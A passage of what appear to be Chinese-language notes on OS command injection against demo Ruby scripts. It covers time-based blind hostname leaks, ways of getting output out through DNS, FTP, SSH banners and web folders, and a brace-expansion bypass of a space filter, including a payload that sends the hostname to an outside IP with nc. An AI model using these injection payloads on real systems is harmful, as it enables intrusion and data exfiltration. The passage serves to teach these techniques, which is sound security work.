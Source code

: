 

#### 主机名 长度  盲猜

hostname =  hacker.local    (length:12)

```
$ time ruby server-online.rb '8.8.8.8 && sleep $(hostname | wc -c)'  # wc -c 计算长度

 yes 

0.10s user 0.04s system 0% cpu 16.188 total 
```



####  其他技巧

[使用dig或nslookup进行DNS查询，将输出发送到端口53（UDP） ](https://twitter.com/jobertabma/status/882237472389947392)



> - ```
>   在服务器上执行端口扫描，并且基于暴露的服务确定提取输出的方式。
>   
>   > - **FTP**：尝试将文件写入可以从中下载文件的目录。
>   > - **SSH**：尝试将命令的输出写入MOTD banner，然后只需SSH到服务器。
>   > - **Web**：尝试将命令的输出写入公共目录（/var/www/）中。
>   ```



#### 绕过对空格的限制 

花括号用来匹配一组用逗号分隔的字符串中的任一个。左花括号之前的所有字符称为前文(preamble)，右花括号之后的所有字符称为后文(preamble)。前文和后文都是可选的。花括号中不能包含不加引号的空白符。 

[花括号扩展](http://www.gnu.org/software/bash/manual/bashref.html#Brace-Expansion)

```
puts `ping -c 4 #{ARGV[0].gsub(/\s+?/,'')}`  #删除空格
```



```
$ time ruby ping-2.rb '8.8.8.8;{sleep,5}'

 ... 

0.10s user 0.04s system 1% cpu 8.182 total 


$ ruby ping.rb '8.8.8.8;hostname|{nc,192.241.233.143,81}'


```




